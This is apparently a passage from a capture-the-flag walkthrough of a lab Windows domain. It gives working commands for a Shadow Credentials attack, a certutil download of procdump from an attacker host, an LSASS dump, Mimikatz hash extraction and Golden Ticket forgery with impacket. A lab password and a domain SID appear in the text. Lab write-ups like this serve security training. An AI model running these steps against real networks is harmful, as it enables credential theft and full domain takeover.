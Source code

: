 ```bash
pywhisker.py -d support.htb -u support -p 'Ironside47pleasure40Watchful' --target DC$ --action add --dc-ip 10.10.11.174
```

> Injects forged cert to DC's `msDS-KeyCredentialLink` attribute.

Then use `getTGTpkinit.py` or `certipy` (if PKINIT is enabled – in this case it wasn’t).

---

## 🧨 Hash Extraction: Procdump + Mimikatz (LSASS Dump)

### Step 1: Upload Procdump

```cmd
certutil -urlcache -split -f http://10.10.14.1/procdump.exe C:\Temp\procdump.exe
```

### Step 2: Dump LSASS

```cmd
C:\Temp\procdump.exe -accepteula -ma lsass.exe C:\Temp\lsass.dmp
```

### Step 3: Download

```bash
smbclient.py -k -no-pass support.htb/Administrator@dc.support.htb
cd Temp
get lsass.dmp
```

### Step 4: Extract with Mimikatz

```mimikatz
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

> Copy out `krbtgt` and `Administrator` hashes

---

## 🪙 Golden Ticket Creation

```bash
ticketer.py -nthash <krbtgt_hash> -domain-sid S-1-5-21-1677581083-3380853377-188903654 -domain support.htb -user Administrator -groups 512 -dc-ip 10.10.11.174
export KRB5CCNAME=Administrator.ccache
psexec.py -k -no-pass support.htb/Administrator@10.10.11.174
```

> Golden Ticket gives unlimited persistence as DA.

---
